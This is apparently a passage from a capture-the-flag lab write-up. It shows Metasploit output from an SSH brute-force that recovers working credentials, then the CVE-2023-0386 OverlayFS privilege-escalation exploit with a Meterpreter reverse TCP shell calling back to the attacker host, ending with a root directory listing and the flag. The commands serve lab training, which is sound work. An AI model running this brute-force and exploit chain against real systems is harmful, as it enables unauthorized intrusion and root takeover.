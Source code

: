 ```
[*] 10.10.11.221:22 - Starting bruteforce
[+] 10.10.11.221:22 - Success: 'admin:SuperDuperPass123' 'uid=1000(admin) gid=1000(admin) groups=1000(admin) Linux 2million 5.15.70-051570-generic #202209231339 SMP Fri Sep 23 13:45:37 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (10.10.16.82:45015 -> 10.10.11.221:22) at 2025-08-28 19:59:21 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[msf](Jobs:0 Agents:1) auxiliary(scanner/ssh/ssh_login) >> sessions

Active sessions
===============

  Id  Name  Type         Information        Connection
  --  ----  ----         -----------        ----------
  1         shell linux  SSH truelyyours @  10.10.16.82:45015 -> 10.10.11.221:22 (10.10.11.221)
```

Once we have this session, we have go ahead and use the `OverlayFS` exploit.
```
[msf](Jobs:0 Agents:1) auxiliary(scanner/ssh/ssh_login) >> use 6
[*] Using configured payload linux/x64/meterpreter_reverse_tcp
msf](Jobs:0 Agents:1) exploit(linux/local/cve_2023_0386_overlayfs_priv_esc) >> set session 1
session => 1
[msf](Jobs:0 Agents:1) exploit(linux/local/cve_2023_0386_overlayfs_priv_esc) >> set lhost 10.10.16.82
lhost => 10.10.16.82
[msf](Jobs:0 Agents:1) exploit(linux/local/cve_2023_0386_overlayfs_priv_esc) >> run
[*] Started reverse TCP handler on 10.10.16.82:4444 
[!] SESSION may not be compatible with this module:
[!]  * Unknown session arch
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Linux kernel version found: 5.15.70
[*] Writing '/tmp/.wF2Y3LNjne/.b6DlFC4UO2' (1121480 bytes) ...
[*] Launching exploit...
[+] Deleted /tmp/.wF2Y3LNjne
[*] Meterpreter session 2 opened (10.10.16.82:4444 -> 10.10.11.221:35766) at 2025-08-28 20:32:32 -0400

[msf](Jobs:0 Agents:2) exploit(linux/local/cve_2023_0386_overlayfs_priv_esc) >> sessions -i 2
[*] Starting interaction with 2...

(Meterpreter 2)(/home/admin) > cd /
(Meterpreter 2)(/) > cd root
(Meterpreter 2)(/root) > ls
Listing: /root
==============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
020666/rw-rw-rw-  0     cha   2025-08-28 06:01:44 -0400  .bash_history
100644/rw-r--r--  3106  fil   2021-10-15 06:06:05 -0400  .bashrc
040700/rwx------  4096  dir   2023-06-06 06:22:34 -0400  .cache
040755/rwxr-xr-x  4096  dir   2023-06-06 06:22:33 -0400  .cleanup
040700/rwx------  4096  dir   2023-06-06 06:22:34 -0400  .gnupg
040755/rwxr-xr-x  4096  dir   2023-06-06 06:22:34 -0400  .local
020666/rw-rw-rw-  0     cha   2025-08-28 06:01:44 -0400  .mysql_history
100644/rw-r--r--  161   fil   2019-07-09 06:05:50 -0400  .profile
040700/rwx------  4096  dir   2023-06-06 06:22:34 -0400  .ssh
100640/rw-r-----  33    fil   2025-08-28 06:09:59 -0400  root.txt
040700/rwx------  4096  dir   2023-06-06 06:22:34 -0400  snap
100644/rw-r--r--  3767  fil   2023-06-06 08:43:35 -0400  thank_you.json

(Meterpreter 2)(/root) > cat root.txt
29fb39bbb54d4c2ee6912f44d184b01d
```